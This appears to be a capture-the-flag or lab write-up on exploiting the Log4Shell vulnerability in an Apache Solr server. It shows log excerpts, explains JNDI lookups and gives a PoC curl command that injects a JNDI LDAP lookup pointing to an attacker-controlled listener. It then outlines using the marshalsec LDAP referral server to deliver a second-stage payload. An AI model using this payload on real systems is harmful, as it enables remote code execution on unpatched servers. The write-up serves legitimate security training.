 ```
2021-12-13 04:01:56.607 INFO  (qtp1083962448-19) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:56.814 INFO  (qtp1083962448-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:56.997 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:57.232 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:57.430 INFO  (qtp1083962448-17) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:57.681 INFO  (qtp1083962448-22) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:57.896 INFO  (qtp1083962448-18) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:58.106 INFO  (qtp1083962448-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:58.351 INFO  (qtp1083962448-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0 
```

Log4j uses lookups to generate automated logs. It allows you to add variables to the field, for example ${env:HOME} or the famous ${jndi:ldap://IP:PORT}. 

JNDI stands for Java Naming and Directory Interface and it is used to allow distributed applications to look up services in an abstract, resource-independent way. In this exploit it is used to send a LDAP request to targeted server in order to transfer full Objets to the target

In this log file the field that looks exploitable is "params" in the page http://10.10.162.234:8983/solr/admin/cores

### PoC
We know now that the server is vulnerable we will do a simple PoC to check if the connection will happen
in our Kali Linux machine we will start a listener on port 4444
and then we will connect to it using
```bash
curl 'http://10.10.162.234:8983/solr/admin/cores?foo=$\{jndi:ldap://10.8.249.41:4444\}'
```
![image](https://user-images.githubusercontent.com/79013612/148696470-21dd2dea-3b94-40e2-acb7-0b7230a89679.png)

![image](https://user-images.githubusercontent.com/79013612/148696499-b9417bb7-b5aa-46fc-9291-5f17cd2406e1.png)

We received a connection !

### 2- Exploitation

In the PoC we received a connection in our **netcat** listener and random non printable characters, those characters are representing an LDAP request, so it would serve more to receive the request in an **LDAP Referral Server** to redirect the request of the victim to another location, where you can host a secondary payload that will ultimately run code on the target

The **LDAP Referral Server** that is used is **marshalsec** https://github.com/mbechler/marshalsec
